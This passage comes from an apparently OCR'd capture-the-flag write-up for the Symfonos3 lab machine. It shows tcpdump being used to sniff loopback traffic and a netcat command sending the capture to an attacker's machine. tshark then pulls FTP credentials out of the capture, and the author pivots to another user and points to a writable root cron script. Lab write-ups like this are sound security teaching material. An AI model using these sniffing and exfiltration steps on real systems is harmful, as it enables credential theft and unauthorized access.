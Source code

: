 we can try to make a sniffer using TCPdump in order to capture possible users and passwords. 
- ```-cerberus@symfonos3:/tmp$ id
uid=1001(cerberus) gid=1001(cerberus) groups=1001(cerberus),33(www-data),1003(pcap)```
we  can try it because if i am able to listen from cpcap  tcdump -D ip a loop back we can make a packet sniffer with TCPdump in order to might capture packets from that crontab we might can get crendials or something like that.

first of all we need to verify which interfaces we are able to capture.

```bash
cerberus@symfonos3:/$ tcpdump -D
1.ens33 [Up, Running]
2.ens34 [Up, Running]
3.any (Pseudo-device that captures on all interfaces) [Up, Running]
4.lo [Up, Running, Loopback]
5.nflog (Linux netfilter log (NFLOG) interface)
6.nfqueue (Linux netfilter queue (NFQUEUE) interface)
7.usbmon1 (USB bus number 1)
8.usbmon2 (USB bus number 2)
cerberus@symfonos3:/$ 
```
it looks like we can capture traffic from all of these, let's capture them.

```
cerberus@symfonos3:/$ tcpdump -i lo -v -w thecap.cap

send the capture for netcat from the target machine to our machine 
ex
nc 192.168.11.53 < thecap.cap

for

nc -nlvp 443 > thecap.cap

```
sniff the trafic using tshark.
```bash
❯ tshark -r Thecap.cap -Y"ftp" 2>/dev/null
```
looks like we have potential users and password .
hades:PTpZTfU4vxgzvRBE

let's do a user pivoting using the credentials that we snifffed.

```bash
hades@symfonos3:/tmp$ whoami
hades
```
now let's verify how we can take adventage of the task that we were seeing executing with pspy.
```bash
2023/04/17 22:50:01 CMD: UID=0     PID=40488  | /bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
```
now if we open this task seems that it's writable and it looks like we have to os.import the python libraries because it is a script made with python

